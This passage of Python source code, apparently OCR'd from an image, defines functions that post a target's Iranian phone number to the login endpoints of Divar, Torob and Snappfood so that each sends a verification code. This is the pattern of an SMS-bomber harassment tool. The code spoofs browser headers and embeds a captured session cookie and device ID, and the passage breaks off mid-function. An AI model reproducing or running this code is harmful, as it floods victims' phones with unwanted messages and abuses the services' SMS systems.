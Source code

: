 def divar(phone):
    #divar api
    divarH = {'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'application/x-www-form-urlencoded',
'origin': 'https://divar.ir',
'referer': 'https://divar.ir/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36',
'x-standard-divar-error': 'true'}
    divarD = {"phone":phone.split("+98")[1]}
    try:
        divarR = post(timeout=5, url="https://api.divar.ir/v5/auth/authenticate", headers=divarH, json=divarD).json()
        if divarR["authenticate_response"] == "AUTHENTICATION_VERIFICATION_CODE_SENT":
            print(f'{g}(Divar) {w}Code Was Sent')
            return True
    except:
        pass
    
def torob(phone):
    phone = '0'+phone.split('+98')[1]
    torobH = {'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'cookie': 'abtest=next_pwa; search_session=ofwjiyqqethomevqrgzxvopjtgkgimdc; _gcl_au=1.1.805505755.1639260830; _gid=GA1.2.683761449.1639260830; _gat_UA-105982196-1=1; _ga_CF4KGKM3PG=GS1.1.1639260830.1.0.1639260830.0; _clck=130ifw1|1|ex6|0; _ga=GA1.2.30224238.1639260830',
'origin': 'https://torob.com',
'referer': 'https://torob.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}
    try:
        torobR = get(timeout=5, url=f"https://api.torob.com/a/phone/send-pin/?phone_number={phone}", headers=torobH).json()
        if torobR["message"] == "pin code sent":
            print(f'{g}(Torob) {w}Code Was Sent')
            return True
    except:
        pass
    
def snapfood(phone):
    sfoodU = 'https://snappfood.ir/mobile/v2/user/loginMobileWithNoPass?lat=35.774&long=51.418&optionalClient=WEBSITE&client=WEBSITE&deviceType=WEBSITE&appVersion=8.1.0&UDID=39c62f64-3d2d-4954-9033-816098559ae4&locale=fa'
    sfoodH = {'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',